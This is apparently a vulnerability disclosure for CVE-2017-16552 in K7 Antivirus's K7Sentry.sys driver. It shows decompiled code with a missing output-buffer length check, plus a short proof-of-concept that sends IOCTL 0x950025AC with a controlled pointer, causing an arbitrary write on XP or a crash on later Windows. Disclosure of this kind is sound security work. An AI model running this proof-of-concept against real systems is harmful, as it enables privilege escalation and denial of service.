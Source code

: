 # CVE-2017-16552

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*

# Details
The issue lies in the dispatch handler for the IRP_MJ_DEVICE_CONTROL (sub_00018FC0). The handler code for IoControlCode 0x950025AC does not check the length of the output buffer before using it and assigns a 4 byte value to the output buffer.

The code snippet below is the decompiled code which has been named and commented up to illustrate the problem.


```C++
PVOID *pOutputBuffer;

case 0x950025A8:
    v9 = sub_15A10(&stIoControlBuffer);
    goto LABEL_117;
case 0x950025AC:
    value_0_or_1 = PossiblySomethingLoggy();
    *v2 = 4;
    // Note: pOutputBuffer is the same as Irp->AssociatedIrp.SystemBuffer
    // VULN: No check has been performed before dereferencing that there is enough space to write
    // a 32-bit value to it.
    *pOutputBuffer = (PVOID)value_0_or_1;
    v9 = 0;
    goto LABEL_117;
case 0x950025B0:
    // CVE-2017-16554
    *pOutputBuffer = (PVOID)13;
    *((_BYTE *)pOutputBuffer + 4) = 0;
    *v2 = 13;
    v9 = 0;
    goto LABEL_117;
```

# PoC Code
This PoC will open a connection to the driver and call it with the approiate IOCTL code to geneate the crash.

```c++
HANDLE hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
if (hDevice != INVALID_HANDLE_VALUE)
{
    DeviceIoControl(hDevice, 0x950025AC, (PVOID)arrInBuffer, 0, (PVOID)0xaaaaaaaa, 0, &dwBytesReturned, NULL);
}
```

On Windows XP, this will attempt to write the value 0 or 1 (depending on state) to *0xaaaaaaaa*. On this platform, this could be easily used for a privilege escallation.

On Windows 7 and above, this will attempt to write the value 0 or 1 (depending on state) to 0x00000000 and will cause a BSOD. This would simply be an availability issues.
